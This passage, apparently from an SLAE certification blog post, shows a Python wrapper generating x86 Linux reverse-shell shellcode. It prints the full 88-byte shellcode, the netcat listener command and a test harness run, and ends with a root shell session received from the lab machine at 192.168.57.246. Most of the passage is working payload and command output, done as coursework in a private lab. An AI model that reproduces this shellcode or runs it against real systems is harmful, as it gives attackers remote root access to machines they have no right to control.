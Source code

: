 Once generated, the reverse shell shellcode will be run on the system with the IP address of `192.168.57.246`, as represented below.

```shell
root@kali:~/workspace/SLAE/assignments/0x02# ifconfig | grep 192.168.57
    inet 192.168.57.246  netmask 255.255.255.0  broadcast 192.168.57.255
```

The following output shows the usage of the wrapper program and specifies the reverse shell shellcode, the IP address of 192.168.57.1 and the port of 4455 to which the reverse shell should connect.

```shell
root@kali:~/workspace/SLAE/assignments/0x02# python3 ConfShell.py reverse 192.168.57.1 4455
\x31\xdb\xf7\xe3\x52\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xc3\xbf\xff\xff\xff\xff\xb9\x3f\x57\xc6\xfe\x31\xf9\x51\x66\x68\x11\x67\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xb0\x66\xcd\x80\x89\xd1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xd1\x89\xe3\xb0\x0b\xcd\x80
```

This output can then be used in `sc_test.c` as outlined previously. After compiling the new shellcode within `sc_test.c`, a `nc` listener is set to listen on port `4455` on the system to which the reverse shell will connect (`192.168.57.1`).

```shell
SLAE-1469-MacBook-Pro:~ SLAE-1469$ nc -lvp 4455
```

The `sc_test` binary is now ready to be executed on the `192.168.57.246` system.

```shell
root@kali:~/workspace/SLAE/assignments/0x02# ./sc_test
Shellcode Length: 88

```

Upon executing `sc_test` on `192.168.57.246`, a connection is received on port `4455` on the `192.168.57.1` system. The output below shows this.

```shell
SLAE-1469-MacBook-Pro:~ SLAE-1469$ nc -lvp 4455
Connection from 192.168.57.246:37638
id
uid=0(root) gid=0(root) groups=0(root)
ifconfig | grep 192.168.57
        inet 192.168.57.246  netmask 255.255.255.0  broadcast 192.168.57.255
uname -a
Linux kali 4.19.0-kali5-amd64 #1 SMP Debian 4.19.37-6kali1 (2019-07-22) x86_64 GNU/Linux
```

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

